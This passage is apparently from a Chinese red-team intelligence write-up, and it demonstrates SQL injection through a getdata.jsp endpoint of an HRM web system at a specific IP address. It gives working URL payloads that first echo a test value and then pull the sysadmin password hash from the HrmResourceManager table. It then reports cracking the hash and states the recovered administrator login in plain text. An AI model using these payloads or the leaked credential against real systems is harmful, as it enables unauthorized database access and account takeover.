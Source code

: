     http://106.15.190.147/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%201234%20as%20id

页面显示1234

![图片](2021.4.8%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/8_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

使用payload：

    Select password as id from HrmResourceManager

    http://106.15.190.147/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![图片](2021.4.8%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/9_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

对密文进行md5对比：

![图片](2021.4.8%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/10_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

使用sysadmin    123450aA.登录系统

![图片](2021.4.8%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/11_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)
